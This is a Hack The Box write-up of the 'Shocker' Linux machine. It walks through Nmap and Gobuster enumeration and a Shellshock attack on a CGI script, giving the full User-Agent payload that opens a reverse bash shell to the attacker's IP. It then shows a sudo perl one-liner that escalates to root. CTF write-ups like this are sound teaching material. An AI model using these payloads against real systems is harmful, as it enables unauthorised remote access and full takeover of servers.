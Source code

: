 ```yaml
---
title: "Shocker"
date: 2023-06-24T23:12:03+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Linux machine with Shellshock bash remote code execution vulnerability."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Shocker
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Shocker

![Untitled](/HTB/shocker-icon.png)

## Tools Used

- Nmap
- Gobuster
- Burpsuite

## Port Scanning

We can find two service up and running one web server in the port 80 and a ssh in port 2222

![Untitled](/HTB/shocker-1.png)

## Enumeration

If we visit the page we find a basic page with a basic html with only a picture.

![Untitled](/HTB/shocker-2.png)

![Untitled](/HTB/shocker-3.png)

When I tried to fuzz the directories of the website, I found that gobuster doesn’t found anything and after several tests i realized that the website only recognize directories adding “/” at the end of the URL.

![Untitled](/HTB/shocker-4.png)

![Untitled](/HTB/shocker-5.png)

Thanks to the error message of the website, it is observed that when no slash is added, a "not found" page is returned. In this example, the "cgi-bin" directory is tested. "cgi-bin" is specifically tested because the name of the machine gives a clue that it is likely vulnerable to the Shellshock Bash remote code execution vulnerability, which affects web servers utilizing CGI (Common Gateway Interface).

![Untitled](/HTB/shocker-6.png)

A quick fuzzing with the flag "-f" in Gobuster is performed, forcing the slash at the end of the URL. Three directories are discovered. Now, the "/cgi-bin/" directory is fuzzed to search for any interesting file such as .php, .py, .html, .js, or .sh. In this case, the "-f" flag is not used because files are being searched for.

![Untitled](/HTB/shocker-7.png)

We find a file named [user.sh](http://user.sh), lets open it

![Untitled](/HTB/shocker-8.png)

Upon opening it, it is revealed that the file is actually [test.sh](http://test.sh) file

Now let’s focus on the Shellshock vulnerability, the basis of this vuln is to edit the http request to modify the User-Agent to “() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1” we can do that with burp and allows us with a listening port to have a reverse shell. 

I got all the information about Shellshock here: https://ethicalhackingguru.com/how-to-exploit-the-shellshock-vulnerability/

![Untitled](/HTB/shocker-9.png)

![Untitled](/HTB/shocker-10.png)

## Gaining an Initial Foothold

Once in the home of the pwned user shelly we can see a user.txt which has the flag

![Untitled](/HTB/shocker-11.png)

![Untitled](/HTB/shocker-12.png)

## Privilege Escalation

Now we are in let’s elevate privilege

![Untitled](/HTB/shocker-13.png)

We can see with the sudo -l that we can use perl with root privilegies without any password, let’s take this advantage to pawn the system.

If we check in [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/perl/#sudo) we can use `sudo perl -e 'exec "/bin/sh";'` to escalate privilege.

![Untitled](/HTB/shocker-14.png)

![Untitled](/HTB/shocker-15.png)

## Lessons Learned

- What did you learn from the room?
    
    Now we have learned how to exploit the Shellshock vulnerability to gain remote code execution and how to use sudo permissions to escalate privileges.
    
- Were there any new tools or techniques used?
    
    The use of the flag -f in gobuster for directory fuzzing.

**Thank you for reading, and happy hacking! 😄**